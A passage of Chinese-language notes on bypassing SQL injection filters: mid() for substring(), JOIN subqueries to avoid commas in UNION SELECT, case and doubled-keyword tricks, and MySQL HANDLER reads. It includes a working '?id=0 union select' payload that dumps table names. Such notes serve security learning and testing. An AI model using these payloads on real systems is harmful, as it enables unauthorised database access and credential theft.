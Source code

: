 拿到用户名,密码



## limit()substring()函数过滤绕过

可以用mid()函数,用法和substring()一样



## 逗号过滤绕过



查询users表用户的email是多少

`select u.*,e.*
from users u,emails e
where u.id=e.id;`

使用join:

`select u.*,e.*
from users u JOIN emails e on u.id=e.id;`



join绕过逗号限制的原理:

`union select 1,2,3`     等价于

`union select * from (select 1)a join (select 2)b join (select 3)c`

实例;

`?id=0 union select * from (select 1)a join (select 2)b join (select group_concat(table_name) from table_schema.tables where table_schema=database())c`

**注意:**在获取用户名和密码时,因为`,`被过滤,所以得分两次分别获取用户名和密码



## union和select过滤绕过

1.大小写绕过

2.复写单词绕过

MySQL 除了可以使用 select 查询表中的数据，也可使用 **handler** 语句，这条语句使我们能够一行一行的浏览一个表中的数据，不过handler 语句并不具备 select 语句的所有功能。它是 MySQL 专用的语句，并没有包含到SQL标准中。handler 语句提供通往表的直接通道的存储引擎接口，可以用于 MyISAM 和 InnoDB 表。
**handler:**

`handler [表名] open as p;`

`handler p read first/next/prev/last;`        

分别对应第一行,下一行,上一行,最后一行

`handler p close;`



## 宽字节注入绕过mp4
